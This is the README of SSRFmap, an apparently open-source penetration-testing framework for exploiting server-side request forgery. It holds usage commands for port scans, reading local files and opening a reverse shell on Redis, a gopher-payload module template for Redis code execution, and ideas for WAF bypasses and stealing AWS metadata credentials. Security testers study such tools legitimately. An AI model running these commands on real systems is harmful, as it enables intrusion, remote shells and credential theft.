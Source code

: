 # SSRFmap

> Server Side Request Forgery or SSRF is a vulnerability in which an attacker forces a server to perform requests on their behalf. It's often used to leverage actions on other services, this framework aims to find and exploit these services easily. SSRFmap takes a Burp request file as input and a parameter to fuzz.

## Guide / RTFM

```powershell
usage: ssrfmap.py [-h] [-r REQFILE] [-p PARAM] [-m MODULES] [--lhost LHOST]
                  [--lport LPORT]

optional arguments:
  -h, --help     show this help message and exit
  -r REQFILE     SSRF Request file
  -p PARAM       SSRF Parameter to target
  -m MODULES     SSRF Modules to enable
  -l HANDLER     Start an handler for a reverse shell
  --lhost LHOST  LHOST reverse shell
  --lport LPORT  LPORT reverse shell
```

The default way to use this script is the following.

```powershell
# Launch a portscan on localhost and read default files
python ssrfmap.py -r data/request.txt -p url -m readfiles,portscan

# Triggering a reverse shell on a Redis
python ssrfmap.py -r data/request.txt -p url -m redis --lhost=127.0.0.1 --lport=4242 -l 4242

# -l create a listener for reverse shell on the specified port
# --lhost and --lport work like in Metasploit, these values are used to create a reverse shell payload
```

A quick way to test the framework can be done with `data/example.py` SSRF service.

```powershell
FLASK_APP=data/example.py flask run &
python ssrfmap.py -r data/request.txt -p url -m readfiles
```

## Contribute

I <3 pull requests :)
Feel free to add any feature listed below or a new service.

- --level arg - ability to tweak payloads in order to bypass some IDS/WAF. E.g: `127.0.0.1 -> [::] -> 0000: -> ...`
- networkscan - same a portscan, we want to discover machines in the same network
- aws and other cloud providers - extract sensitive data from http://169.254.169.254/latest/meta-data/iam/security-credentials/dummy and more
- sockserver  - SSRF SOCK proxy server - https://github.com/iamultra/ssrfsocks
- handle request with file in requester

The following code is a template if you wish to add a module interacting with a service.

```python
from core.utils import *
import logging

name        = "servicename in lowercase"
description = "ServiceName RCE - What does it do"
author      = "Name or pseudo of the author"

class exploit():

    def __init__(self, requester, args):
        logging.info("Module '{}' launched !".format(name))

        # Data for the service
        ip   = "127.0.0.1"
        port = "6379"
        data = "*1%0d%0a$8%0d%0af[...]save%0d%0aquit%0d%0a"
        payload = wrapper_gopher(data, ip , port)

        # Handle args for reverse shell
        if args.lhost == None: payload = payload.replace("SERVER_HOST", input("Server Host:"))
        else:                  payload = payload.replace("SERVER_HOST", args.lhost)

        if args.lport == None: payload = payload.replace("SERVER_PORT", input("Server Port:"))
        else:                  payload = payload.replace("SERVER_PORT", args.lport)

        # Send the payload
        r = requester.do_request(args.param, payload)
```

You can also contribute with a beer IRL or with `buymeacoffee.com`

[![Coffee](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://buymeacoff.ee/swissky)

## Thanks to the contributors

- ???

## Inspired by

- [All you need to know about SSRF and how may we write tools to do auto-detect - Auxy](https://medium.com/bugbountywriteup/the-design-and-implementation-of-ssrf-attack-framework-550e9fda16ea)
- [How I Chained 4 vulnerabilities on GitHub Enterprise, From SSRF Execution Chain to RCE! - Orange Tsai](https://blog.orange.tw/2017/07/how-i-chained-4-vulnerabilities-on.html)
- [Blog on Gopherus Tool  -SpyD3r](https://spyclub.tech/2018/blog-on-gopherus/)
- [Gopherus - Github](https://github.com/tarunkant/Gopherus)
